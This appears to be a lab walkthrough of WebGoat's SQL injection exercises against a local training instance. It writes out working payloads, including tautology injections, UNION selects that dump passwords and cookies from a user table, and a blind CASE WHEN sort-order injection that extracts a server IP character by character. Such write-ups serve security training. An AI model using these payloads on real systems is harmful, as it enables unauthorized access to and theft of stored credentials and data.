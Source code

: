 ## SQL Injection
1. Enter Smith as query.
2. Returned data contains information about Jon Smith.
![](Img/smith.png)
3. When SQL injection is done according to lesson, then all users table records are retrieved:
4. Enter Smith' or '1'='1 as query (remember to not add trailing ' as it is already contained in query).
5. Returned data contains all records from users table.
![](Img/smith2.png)
### For numeric SQL injection:
1. Enter 1 or 1=1 as query.
2. Returned data contains all records from users table.
![](Img/number.png)
### SQL Advanced
#### Union Attack
1. First try was to query Smith as it is existing user, which returned results similar to previous exercise. That gives us insights into users table details: it has 7 columns: USERID, FIRST_NAME, LAST_NAME, CC_NUMBER, CC_TYPE, COOKIE, LOGIN_COUNT
2. On second attempt, UNION is used: Smith' union all select userid, user_name, user_name, user_name, user_name, password, cookie from user_system_data; -- with request for 7 columns (just repeat user_name enough times).
3. But in a result, comes the message:
![](Img/data_types.png)
4. Let’s now use different query: Smith' union select 1, password, password, password, password, password, 1 from user_system_data; --. As it turns out, USERID and LOGIN_COUNT are numeric types, where other columns are strings in the users table.
![](Img/passwords.png)
### SQL Injection (mitigations)
Click on column sort performs a request to http://localhost:8080/WebGoat/SqlInjection/servers?column=ip. Which can be exploited by intercepting the request with ZAP and providing prepared string as ip.

To get the idea about webgoat-prd IP address we first have to find out the table name and ip column name. The obvious guess is servers and ip:

http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)

If that is the correct table and column name, the table will get sorted by ids.

So after intercepting and changing the request we get the table sorted by id, the guess was correct.

Just to check our logic, lets send request to http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM whatever WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END) (servers changed to whatever).

It get’s this pretty error page:
```HTML
<html><body><h1>Whitelabel Error Page</h1>
  <p>This application has no explicit mapping for /error, so you are seeing this as a fallback.</p>
  <div id='created'>Thu Mar 08 17:36:52 UTC 2018</div>
  <div>There was an unexpected error (type=Internal Server Error, status=500).</div>
  <div>user lacks privilege or object not found: SERVER</div>
</body></html>
```
Now with known table and column, lets try getting some idea about webgoat-prd IP:
1. http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-prd') LIKE '192.168.%' THEN id ELSE hostname END), sorts by hostname –> wrong guess.
2. LIKE '192.%', sorts by hostname –> wrong guess. Lets back up a little then.
3. LIKE '1%', sorts by ip –> correct guess! Now we can continue by one position.
4. LIKE '10%', sorts by ip –> correct guess!
5. After some time…
6. LIKE '104.130.219.202', sorts by ip –> correct guess! That is the entire IP address.
With known `IP 104.130.219.202` providing it to the input field returns:
![](Img/mitigations.png)
